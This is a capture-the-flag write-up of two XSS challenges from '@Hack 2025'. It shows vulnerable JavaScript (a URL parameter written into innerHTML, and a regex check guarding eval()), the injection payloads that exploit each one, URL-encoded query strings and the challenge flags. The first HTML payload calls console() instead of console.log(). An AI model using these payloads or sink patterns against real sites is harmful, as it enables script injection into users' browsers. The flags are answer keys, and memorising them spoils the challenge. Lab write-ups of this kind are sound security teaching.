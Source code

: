 ```yaml
---
created: 2025-03-01T14:15
updated: 2025-03-18T02:31
points: 100
solves: 22
---
```


## XSS 1

```js
window.onload = () => {
	const urlParams = new URLSearchParams(window.location.search);
	let helloParam = urlParams.get('hello');
	if (!helloParam) {
		helloParam = '@Hack 2025'; // Default value
	}
	document.getElementById('hello').innerHTML = helloParam;
};
```

To exploit this we simply use `img.onerror`.

```html
<img src=0 onerror=console('I_FOUND_AN_XSS!!!')>
```

```
hello=%3Cimg%20src=0%20onerror=console.log(%22I_FOUND_AN_XSS!!!%22)%3E
```

```flag
ATHACKCTF{0xAAY0U_DID_FIND_AN_X55_HA0xFFHAHA}
```

## XSS 2

```js
function isValidMathExpression(input) {
	const regex = /^(.+[\+,\-,\*,\/].+)$/gm;
	return regex.test(input);
}
```

We just need to match the regex and the url param will be `eval()`ed.

```js
console.log('I_FOUND_AN_XSS!!!');-2
```

```
display=console.log(%22I_FOUND_AN_XSS!!!%22);-2
```

```flag
ATHACKCTF{R3g3X5S_IS_N0T_EN0uGH_0x7F}
```
